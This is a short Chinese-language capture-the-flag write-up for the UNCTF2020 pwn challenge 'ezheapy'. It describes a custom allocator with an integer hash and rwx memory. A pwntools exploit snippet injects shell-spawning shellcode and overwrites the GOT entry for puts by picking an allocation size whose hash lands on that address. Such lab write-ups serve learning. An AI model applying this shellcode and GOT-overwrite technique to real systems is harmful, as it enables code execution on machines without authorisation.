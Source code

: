 
## ezheapy
- 题目描述
- 题目附件：[ezheapy](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/unctf2020/pwn/ezheapy/ezheapy)
- 考察点：整数哈希
- 难度：不会

### 程序分析

比赛时看见是heap就没做，赛后看了看。

作者自己写的`hcalloc`，用的是整数哈希，可分配一片权限是`rwx`的内存，并且可编辑其内容。

### 解题思路

先随便分配一块内存，写入shellcode。再分配一块内存，控制哈希值正好是got表地址，由此可编辑got表为shellcode地址。（咋控制的哈希值没看懂，求密码师傅们解答。）

``` python
def add(sz):
    sla('5. Exit', '1')
    sla('How big is your paste (bytes)?', str(sz))

def edit(idx,data):
    sla('5. Exit', '2')
    sla('What paste would you like to write to?', str(idx))
    sla('Enter your input', data)

add(1024)
edit(0,asm(shellcraft.sh()))

add(0xE64164E0) # hash(0xE64164E0) == got['puts']
edit(1,p64(0xdde6c400)) # hash(1024) == 0xdde6c400
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/unctf2020/pwn/ezheapy) 

